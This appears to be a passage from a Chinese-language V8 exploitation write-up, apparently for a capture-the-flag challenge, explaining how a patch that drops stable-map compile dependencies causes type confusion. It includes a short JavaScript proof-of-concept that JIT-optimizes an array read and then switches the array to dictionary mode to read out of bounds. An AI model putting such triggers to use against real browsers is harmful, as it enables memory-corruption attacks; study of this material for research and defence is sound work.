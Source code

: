 ```
   InitializeModuleEmbedderData(context);
```
禁用了wasm

结合上面的知识，就很好理解这个patch了，对于stable map，并不会生成check map而是会去创建一个compile dependency，但是这部分内容被patch掉了，所以就导致对于一个stable map的array，将不会有类型检查，这样的话就可以得到类型混淆漏洞了。

```
arr = [1.1, 2.2, 3.3,4.4];
// make the map stable
arr.x = 1;
function foo(idx) {
    return arr[idx];
}
// optimize foo
for (i = 0; i < 100000; i++){
    foo(1);
}
// change arr to dictionary map
arr[0x100000] = 5.5;
console.log(foo(1000));
```



